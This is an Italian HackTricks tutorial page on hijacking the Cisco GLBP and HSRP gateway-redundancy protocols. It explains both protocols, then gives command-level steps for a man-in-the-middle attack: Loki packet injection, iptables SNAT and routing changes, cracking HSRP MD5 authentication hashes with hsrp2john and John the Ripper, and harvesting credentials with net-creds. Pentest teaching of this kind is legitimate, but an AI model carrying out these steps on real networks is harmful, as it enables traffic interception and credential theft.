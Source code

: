 # Attacchi GLBP & HSRP

<details>

<summary><strong>Impara l'hacking AWS da zero a eroe con</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (Esperto Red Team AWS di HackTricks)</strong></a><strong>!</strong></summary>

Altri modi per supportare HackTricks:

* Se vuoi vedere la tua **azienda pubblicizzata su HackTricks** o **scaricare HackTricks in PDF** Controlla i [**PIANI DI ABBONAMENTO**](https://github.com/sponsors/carlospolop)!
* Ottieni il [**merchandising ufficiale PEASS & HackTricks**](https://peass.creator-spring.com)
* Scopri [**La Famiglia PEASS**](https://opensea.io/collection/the-peass-family), la nostra collezione di [**NFT esclusivi**](https://opensea.io/collection/the-peass-family)
* **Unisciti al** 💬 [**gruppo Discord**](https://discord.gg/hRep4RUj7f) o al [**gruppo telegram**](https://t.me/peass) o **seguici** su **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Condividi i tuoi trucchi di hacking inviando PR a** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>

<figure><img src="/.gitbook/assets/WebSec_1500x400_10fps_21sn_lightoptimized_v2.gif" alt=""><figcaption></figcaption></figure>

{% embed url="https://websec.nl/" %}


## Panoramica sull'Hijacking FHRP

### Approfondimenti su FHRP
FHRP è progettato per fornire robustezza di rete unendo più router in un'unica unità virtuale, migliorando così la distribuzione del carico e la tolleranza ai guasti. Cisco Systems ha introdotto protocolli di rilievo in questa suite, come GLBP e HSRP.

### Approfondimenti sul Protocollo GLBP
La creazione di Cisco, GLBP, funziona sullo stack TCP/IP, utilizzando UDP sulla porta 3222 per la comunicazione. I router in un gruppo GLBP scambiano pacchetti "hello" a intervalli di 3 secondi. Se un router non invia questi pacchetti per 10 secondi, si presume che sia offline. Tuttavia, questi timer non sono fissi e possono essere modificati.

### Operazioni e Distribuzione del Carico di GLBP
GLBP si distingue per consentire la distribuzione del carico tra i router utilizzando un singolo IP virtuale accoppiato con più indirizzi MAC virtuali. In un gruppo GLBP, ogni router è coinvolto nell'inoltro dei pacchetti. A differenza di HSRP/VRRP, GLBP offre un vero bilanciamento del carico attraverso diversi meccanismi:

- **Bilanciamento del Carico Dipendente dall'Host:** Mantiene l'assegnazione dell'indirizzo MAC AVF coerente a un host, essenziale per configurazioni NAT stabili.
- **Bilanciamento del Carico Round-Robin:** L'approccio predefinito, alternando l'assegnazione dell'indirizzo MAC AVF tra gli host richiedenti.
- **Bilanciamento del Carico Round-Robin Ponderato:** Distribuisce il carico in base a metriche "Peso" predefinite.

### Componenti Chiave e Terminologie in GLBP
- **AVG (Gateway Virtuale Attivo):** Il router principale, responsabile dell'assegnazione degli indirizzi MAC ai router peer.
- **AVF (Inoltratore Virtuale Attivo):** Un router designato per gestire il traffico di rete.
- **Priorità GLBP:** Una metrica che determina l'AVG, partendo da un valore predefinito di 100 e variando tra 1 e 255.
- **Peso GLBP:** Riflette il carico attuale su un router, regolabile manualmente o tramite il Tracciamento degli Oggetti.
- **Indirizzo IP Virtuale GLBP:** Serve come gateway predefinito della rete per tutti i dispositivi connessi.

Per le interazioni, GLBP utilizza l'indirizzo multicast riservato 224.0.0.102 e la porta UDP 3222. I router trasmettono pacchetti "hello" a intervalli di 3 secondi e vengono considerati non operativi se un pacchetto viene perso per una durata di 10 secondi.

### Meccanismo di Attacco GLBP
Un attaccante può diventare il router principale inviando un pacchetto GLBP con il valore di priorità più alto (255). Ciò può portare a attacchi DoS o MITM, consentendo l'intercettazione o il reindirizzamento del traffico.

### Esecuzione di un Attacco GLBP con Loki
[Loki](https://github.com/raizo62/loki_on_kali) può eseguire un attacco GLBP iniettando un pacchetto con priorità e peso impostati su 255. I passaggi pre-attacco coinvolgono la raccolta di informazioni come l'indirizzo IP virtuale, la presenza di autenticazione e i valori di priorità del router utilizzando strumenti come Wireshark.

Passaggi dell'Attacco:
1. Passare alla modalità promiscua e abilitare l'inoltro IP.
2. Identificare il router di destinazione e recuperare il suo IP.
3. Generare un ARP Gratuito.
4. Iniettare un pacchetto GLBP malintenzionato, impersonando l'AVG.
5. Assegnare un indirizzo IP secondario all'interfaccia di rete dell'attaccante, riflettendo l'IP virtuale GLBP.
6. Implementare SNAT per una visibilità completa del traffico.
7. Regolare il routing per garantire un accesso continuo a Internet attraverso il router AVG originale.

Seguendo questi passaggi, l'attaccante si posiziona come "uomo nel mezzo", in grado di intercettare e analizzare il traffico di rete, inclusi dati non crittografati o sensibili.

Per dimostrazione, ecco i frammenti di comando richiesti:
```bash
# Enable promiscuous mode and IP forwarding
sudo ip link set eth0 promisc on
sudo sysctl -w net.ipv4.ip_forward=1

# Configure secondary IP and SNAT
sudo ifconfig eth0:1 10.10.100.254 netmask 255.255.255.0
sudo iptables -t nat -A POSTROUTING -o eth0 -j MASQUERADE

# Adjust routing
sudo route del default
sudo route add -net 0.0.0.0 netmask 0.0.0.0 gw 10.10.100.100
```
### Spiegazione passiva dell'attacco HSRP Hijacking con dettagli sui comandi

#### Panoramica di HSRP (Hot Standby Router/Redundancy Protocol)
HSRP è un protocollo proprietario di Cisco progettato per la ridondanza del gateway di rete. Consente la configurazione di più router fisici in un'unica unità logica con un indirizzo IP condiviso. Questa unità logica è gestita da un router primario responsabile del flusso di traffico. A differenza di GLBP, che utilizza metriche come priorità e peso per il bilanciamento del carico, HSRP si basa su un singolo router attivo per la gestione del traffico.

#### Ruoli e terminologia in HSRP
- **Router attivo HSRP**: Il dispositivo che funge da gateway, gestendo il flusso di traffico.
- **Router standby HSRP**: Un router di backup, pronto a prendere il controllo se il router attivo fallisce.
- **Gruppo HSRP**: Un insieme di router che collaborano per formare un singolo router virtuale resiliente.
- **Indirizzo MAC HSRP**: Un indirizzo MAC virtuale assegnato al router logico nella configurazione HSRP.
- **Indirizzo IP virtuale HSRP**: L'indirizzo IP virtuale del gruppo HSRP, agendo come gateway predefinito per i dispositivi connessi.

#### Versioni di HSRP
HSRP ha due versioni, HSRPv1 e HSRPv2, che differiscono principalmente per capacità di gruppo, utilizzo di IP multicast e struttura dell'indirizzo MAC virtuale. Il protocollo utilizza specifici indirizzi IP multicast per lo scambio di informazioni di servizio, con pacchetti Hello inviati ogni 3 secondi. Un router è considerato inattivo se non riceve alcun pacchetto entro un intervallo di 10 secondi.

#### Meccanismo di attacco HSRP
Gli attacchi HSRP coinvolgono il prendere il controllo del ruolo del Router attivo iniettando un valore di priorità massimo. Ciò può portare a un attacco Man-In-The-Middle (MITM). I passaggi essenziali prima dell'attacco includono la raccolta di dati sulla configurazione HSRP, che può essere fatta utilizzando Wireshark per l'analisi del traffico.

#### Passaggi per aggirare l'autenticazione HSRP
1. Salvare il traffico di rete contenente i dati HSRP in un file .pcap.
```shell
tcpdump -w hsrp_traffic.pcap
```
2. Estrarre gli hash MD5 dal file .pcap utilizzando hsrp2john.py.
```shell
python2 hsrp2john.py hsrp_traffic.pcap > hsrp_hashes
```
3. Craccare gli hash MD5 utilizzando John the Ripper.
```shell
john --wordlist=mywordlist.txt hsrp_hashes
```

**Esecuzione dell'iniezione HSRP con Loki**

1. Avviare Loki per identificare gli annunci HSRP.
2. Impostare l'interfaccia di rete in modalità promiscua e abilitare l'inoltro IP.
```shell
sudo ip link set eth0 promisc on
sudo sysctl -w net.ipv4.ip_forward=1
```
3. Utilizzare Loki per mirare a un router specifico, inserire la password HSRP craccata e eseguire le configurazioni necessarie per impersonare il Router attivo.
4. Dopo aver ottenuto il ruolo di Router attivo, configurare l'interfaccia di rete e le tabelle IP per intercettare il traffico legittimo.
```shell
sudo ifconfig eth0:1 10.10.100.254 netmask 255.255.255.0
sudo iptables -t nat -A POSTROUTING -o eth0 -j MASQUERADE
```
5. Modificare la tabella di routing per instradare il traffico attraverso il precedente Router attivo.
```shell
sudo route del default
sudo route add -net 0.0.0.0 netmask 0.0.0.0 gw 10.10.100.100
```
6. Utilizzare net-creds.py o un'utilità simile per catturare le credenziali dal traffico intercettato.
```shell
sudo python2 net-creds.py -i eth0
```

L'esecuzione di questi passaggi mette l'attaccante in una posizione per intercettare e manipolare il traffico, simile alla procedura per l'hijacking di GLBP. Questo evidenzia la vulnerabilità nei protocolli di ridondanza come HSRP e la necessità di misure di sicurezza robuste.
